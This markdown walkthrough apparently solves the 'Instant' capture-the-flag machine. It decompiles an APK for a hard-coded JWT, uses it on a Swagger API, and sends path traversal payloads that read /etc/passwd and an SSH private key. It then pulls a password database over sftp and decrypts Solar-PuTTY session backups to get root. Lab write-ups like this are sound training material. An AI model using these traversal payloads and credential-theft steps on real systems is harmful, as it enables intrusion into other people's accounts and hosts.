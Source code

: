 ## Reconssinance and enumeration
``nmap -sC -sV --min-rate 10.10.11.37``
- Found 22 and 80 port open
- Found hostname to be instant.htb
- Added it to hosts

## User Flag
- Download apk
- Install Jdax to read the conttent  of apk
- rread content of apk and output it to a directory ``jadx -d ~/output_apk ~/Downloads/instant.apk``
- Explore arounfd the directories we find com directory in sources read Admin activity under itt
-- We see a JWT token to site ``mywallet1.instant.htb`` subdomain and adding it to hosts
- Again exploring areounf resources we find XML under which we find ``swagger-ui.instant.htb``
- Authorizing the swager ui with JWT we got earlier
- We are able to see the users
```Json
{
  "Status": 200,
  "Users": [
    {
      "email": "admin@instant.htb",
      "role": "Admin",
      "secret_pin": 87348,
      "status": "active",
      "username": "instantAdmin",
      "wallet_id": "f0eca6e5-783a-471d-9d8f-0162cbc900db"
    },
    {
      "email": "shirohige@instant.htb",
      "role": "instantian",
      "secret_pin": 42845,
      "status": "active",
      "username": "shirohige",
      "wallet_id": "458715c9-b15e-467b-8a3d-97bc3fcf3c11"
    }
  ]
}
```
- In swagger-ui send request to view log ``1.log`` replace this with ``../../../../etc/passwd`` and ``../.ssh/id_rsa`` or we can directlly get userflag by sending request ``../user.txt`` 
![alt text](rsa.png)
- But we need rssa public key to login to user shirohige
![alt text](shirohigessh.png)

## Root Flag
- Explore around the host we find ``/projects/mywaalleet/Instant-Api/mywallet/instaance/instant.db``
- Use sftp to get instant.db on a new terminal use following ``sftp -i ~/.ssh/id_rsa shirohige@10.10.11.37``
- We are in sftp sheell, to download instant use following ``get /projects/mywallet/Instant-Api/mywallet/instance/instant.db /home/kali/``
- Open it we find pbkdf2:sha256 encrypted password
- Just google where backups are uually stored and found they are stored usually in ``/var/`` or ``/opt/``
- Found sessions.dat in ``/opt/backups/Solar-PuTTY/sesssions.dat`` which seemed to contain details of database.
- Gooogled for solar putty decrypt and found a python program to decrypt using Solar-Putty 

- Saved both SolarPutty.py and sessions.dat in local directory and decrypted
![alt text](sessionsdat.png)
- Login to root using ``su root`` using the password